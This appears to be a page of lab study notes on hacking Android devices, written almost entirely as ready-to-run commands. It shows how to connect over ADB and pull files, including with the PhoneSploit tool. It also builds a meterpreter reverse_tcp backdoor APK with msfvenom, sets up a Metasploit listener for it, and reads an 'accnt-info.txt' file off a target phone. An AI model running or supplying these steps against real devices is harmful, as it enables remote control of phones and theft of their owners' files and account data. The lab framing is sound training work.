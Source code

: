 # 17 - Hacking Mobile

#### <mark style="color:blue;">**Module 17 - Hacking Mobile Platforms**</mark>

### Download a file from Android using ADB Tool

```bash
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

### Download a file from Android using PhoneSploit

```bash
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
#OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

#Enter the Full Path of file to Download
sdcard/Download/secret.txt
```

### Check entropy and hash of elf file using ADB Tool

<pre class="language-bash"><code class="lang-bash">#Perform deep scan of the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value
<strong>
</strong><strong>adb connect 192.168.0.4:5555 # Connection Establish Steps
</strong>adb shell  

#1. check elf file with highest entropy
ls sdcard/scan #check if there're .elf files
sudo adb pull /sdcard/scan #download entire dir including .elf files
ent -h #ent tool options, if we haven't it: apt install ent
ent first_file.elf #Entropy value 3.28412 bits, it has highest value of entropy.
ent second_file.elf #Entropy value 1.15679 bits

#2. check the last 4 digits of SHA 384
sha384sum --help
sha384sum first_file.elf
#select only the last 4 digits of hash.
</code></pre>

## Generating and Executing Payloads for Android

#### Setup Android

* Open terminal, run `su`
* Run `ip addr add 10.10.10.69/24 dev eth0`

#### Generate Payload&#x20;

* `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk` R raw
* Host the payload and run a listener on Kali
* Type `use exploit/multi/handler`
* Type `set payload android/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit -j -z`
* Browse link of file to start meterpreter session.

#### Exploit Execution

* Open kali hosted link.
* Download APK using es file downloader.
* Install and run.

### **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
* pwd
* cd sdcard
* cd downloads
* cat accnt-info.txt&#x20;
